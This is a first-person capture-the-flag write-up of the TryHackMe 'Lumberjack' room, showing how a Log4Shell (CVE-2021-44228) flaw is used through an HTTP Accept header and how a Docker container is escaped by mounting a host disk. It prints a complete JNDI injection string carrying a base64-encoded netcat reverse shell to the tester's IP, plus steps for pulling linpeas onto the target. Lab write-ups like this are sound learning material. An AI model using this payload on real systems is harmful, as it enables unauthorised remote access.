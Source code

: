 ﻿---

title: Lumberjack-THM

date: 2022-02-02 15:23:05 +0200

categories: [Log4j]

tags: THM 

---


Hello everyone this is my first ctf writeup. Name of the box is Lumberjack from tryhackme, it’s based on Log4j (CVE-2021-44228) it is a medium level challenge.

Created by : SilverStr

Let’s start with basic recons

Recon:

nmap -sC -sV -Pn 10.10.120.161

![image](https://i.imgur.com/kkQdBV9.png)

Results from nmap showed 2 open ports

In ssh there is nothing to see so went to check up the http port 80.

\--------------------------------------------------------------------------------------------------------------------------------------

![image](https://i.imgur.com/znguXwU.png)

Nothing to see in this port. After that I used burp to capture the request of this site.

![image](https://i.imgur.com/VeMZtpN.png) 

They give a resource to refer the log4j vulnerability. 

![image](https://i.imgur.com/uhrIwin.png)

**References used to make this room:**

- [Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
- [CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)
- Malicious LDAP servers are fun. (Come on.... work for it a bit)

I send the request to repeater and I used basic payload of log4j to manipulate the request via the user agent but I didn’t get any proper response. 

![image](https://i.imgur.com/qjM9aJH.png)

I saw the accept “request header” in burp .so, I decided to send the payload via the accept header.

![image](https://i.imgur.com/Jnj3lL2.png)

I got the proper response via this accept header.

Let’s try to get shell using JNDIexploit...

Java -jar JNDIExlpoit-1.2-SNAPSHOT.jar -u

![image](https://i.imgur.com/uREj2Bv.png)

I used this payload for the reverse shell via nc.

Let’s set the exploit:

![image](https://i.imgur.com/GrsdUPz.png)

Reverse shell payload to base 64.

${jndi:ldap://10.8.19.239:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjguMTkuMjM5IDQ0NDQgPi90bXAvZg==}


![image](https://i.imgur.com/Cg2XA34.png)

I send the payload via the accept header. 

![image](https://i.imgur.com/37NrKQu.png)

Finally, I got the shell. Let’s find the 1st flag;

![image](https://i.imgur.com/ibUyBtP.png)

It’s a docker environment... I go to the opt directory for flag’s 


![image](https://i.imgur.com/lM2qnBa.png)



I got the 1st flag …

cat .flag1 

Let’s check for 2nd flag, after long time I decide to use linpease to know vulnerabilities.

I will set the python server to get the linpeas from my machine to that vuln machine.

![image](https://i.imgur.com/898sjck.png)

Let’s give the execute permission to the linpeas chmod +x linpeas.sh and run the linpeas

I saw the suid unmount in the bin directory..

![image](https://i.imgur.com/ZIYlfIi.png)

Let’s see what is in dev directory, I found some directories which is unmounted on disk.

![image](https://i.imgur.com/Ux2QzX9.png)  

Make the empty directory in the tmp directory ‘123’ to mount it. 

![image](https://i.imgur.com/44fEVXe.png)

After that I will go to the root directory which is on mounted folder ‘123’

![image](https://i.imgur.com/CWwj8DS.png)






On the root directory I saw the root.txt, but here I got depressed. 

![image](https://i.imgur.com/44YLZZF.png) 

After few moments I saw the directory which is ‘…’ 

cd …;ls -la

cat .\_fLaG2

![image](https://i.imgur.com/cyDyJ8y.png)

At last, I found the final flag. A wonderful medium level ctf to know what is log4j and how its working





`                          `……….….…………….Happy learning & Hunting ………………………




